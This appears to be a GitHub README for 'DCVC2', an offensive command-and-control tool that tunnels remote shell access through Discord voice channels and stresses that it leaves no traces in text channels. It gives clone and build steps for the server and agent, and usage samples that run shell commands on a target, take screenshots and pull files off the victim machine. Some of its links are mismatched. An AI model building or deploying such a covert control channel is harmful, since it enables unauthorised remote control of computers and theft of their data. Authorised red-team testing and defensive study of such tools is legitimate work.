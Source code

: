 # Discord Voice Channel C2 aka DCVC2
![image](https://user-images.githubusercontent.com/34954477/234415119-662ecfb1-b38e-4a58-839b-3718f9017333.png).

This Multi-OS compatible tool was created to leverage Discord's voice channels for command and control operations. This tool operates entirely over the Real-Time Protocol (RTP) primarily leveraging <a href ="https://stealthbits.com/stealthaudit-for-active-directory-product/(https://github.com/bwmarrin/discordgo)">DiscordGo</a> and leaves no pesky traces behind in text channels. It is a command line based tool meaning all operations will occur strictly from the terminal on either Windows/Linux/OSX. Please use responsibly but have fun! ;)

## Requirements:
1. <a href ="https://discordpy.readthedocs.io/en/stable/discord.html">Read About DCVC2</a>
2. You need a Discord account.
3. You need a Discord server.
4. You need 2 Discord bots. I found it easiest to give both bots admin perms over the discord server but you can fine tune them to only need voice permissions. The best guide to create bots is <a href ="https://discordpy.readthedocs.io/en/stable/discord.html">here</a>.

## Build:
```
git clone https://github.com/3NailsInfoSec/DCVC2.git
cd DCVC2
go mod download
go build server.go
go build agent.go
```
## Usage:
Shell commands:
```
cmd> whoami

desktop-3kjj3kj\sm00v
```
I added 2 hardcoded additions besides basic shell usage:
```
cmd> screenshot
screenshotting..............................................

&

cmd> download
download file path>C:\Users\sm00v\Downloads\34954477.jpg
............................................................
```
## Credits
<a href ="https://twitter.com/sm00v">Twitter: @sm00v</a>
